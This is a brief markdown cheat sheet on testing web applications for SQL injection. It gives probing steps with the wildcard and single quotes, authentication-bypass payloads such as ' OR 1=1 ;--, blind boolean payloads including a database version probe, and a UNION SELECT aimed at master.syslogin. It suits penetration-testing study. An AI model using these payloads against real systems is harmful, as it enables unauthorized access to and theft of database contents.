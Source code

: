 
## SQL Testing :


- __Define__ all the user inputs and fields 

- __Confirm__ the web app backend runs SQL. One way of confi rming that the application is interacting with a backend
              database is to submit the SQL wildcard character % in a given parameter

- __Submit a single quotation__ mark as the item of data you are targeting.


- Observe whether an error occurs, or whether the result differs from the original in any other way.
  

- __submit two single quotation__ marks together for testing. Sometimes one single quote is not enough to show the error.


__Basic Payloads___


    >> ' OR 1=1 ;--
    
    >> ') OR 1=1; --
    
    
- __URL encodings__ are necessary whether you are editing the parameter’s  value directly from your browser, with an intercepting 
                    proxy, or through any other means.
    
    


### Blind SQL : 

This type of SQL injection is based on booleans : True or False .


- ' and 'a'='a

- ' and 'a'='b

- ' and substring(@@version,1,1)='5   &nbsp; |  &nbsp; find the version of the db



Automate the process of SQL blind
>> script 


### Band SQL:

- ' and 'a'='a

- ' and 'a'='b

- 9999' UNION SELECT name,222,'else1' FROM master.syslogin; --

### 
